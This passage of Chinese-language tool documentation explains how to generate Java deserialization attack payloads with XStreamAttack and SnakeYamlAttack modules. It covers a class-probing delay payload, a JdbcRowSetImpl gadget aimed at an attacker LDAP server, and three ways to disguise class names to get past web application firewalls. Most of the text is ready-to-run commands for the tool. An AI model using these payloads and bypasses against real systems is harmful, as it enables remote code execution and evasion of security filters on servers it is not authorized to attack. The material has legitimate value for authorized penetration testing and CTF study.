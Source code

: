 XStreamAttack模块支持以下额外的参数：

* writeToFile：将生成的Payload写入到文件中

#### writeToFile 写入到文件

描述：将XStream的Payload写入到文件中

工具：writeToFile参数后面追加文件名

```java
-m XStreamAttack -g FindClassByBomb -a "java.lang.String|28" -writeToFile "/tmp/xstream.xml"
```

### FindClassByBomb

描述：生成XStream延迟Payload，无论有漏洞还是无漏洞的XStream版本组件都可以延迟，作用：

1. 作用1：用于测试环境是否使用XStream组件
2. 作用2：测试环境中是否有某个类(探测依赖)

工具：竖杠前面时类名，后面是反序列化的深度

```java
-m XStreamAttack -g FindClassByBomb -a "java.lang.String|28"
```

## 4.SnakeYaml反序列化(​SnakeYamlAttack)

### 额外的参数

SnakeYamlAttack模块支持如下额外的参数：

* waf-bypass：三种绕WAF的方式：类名tag1变形，类名tag2变形，类名classNameURLEncode
* writeToFile：将生成的Payload写入到文件中

SnakeYaml系列的一些打法可以参考我写的这篇文章：[2023 华北分区赛 normal_snake](https://www.cnblogs.com/BUTLER/p/17473487.html)

#### waf-bypass 类名变换

描述：SnakeYaml支持将类名的格式变换，学习浅蓝师傅的[SnakeYaml反序列化的一个小trick](https://b1ue.cn/archives/407.html)文章

工具：使用方式如下：

1. 类名变换方式1：`!<tag:yaml.org,2002:com.sun.rowset.JdbcRowSetImpl>`​

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -waf-bypass "tag1"
```

2. 类名变换方式2：`%TAG !      tag:yaml.org,2002:`​

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -waf-bypass "tag2"
```

3. 类名URL编码：

```java
-m SnakeYamlAttack -g JdbcRowSetImpl -a "ldap://127.0.0.1:1389/" -waf-bypass "classNameURLEncode"
```
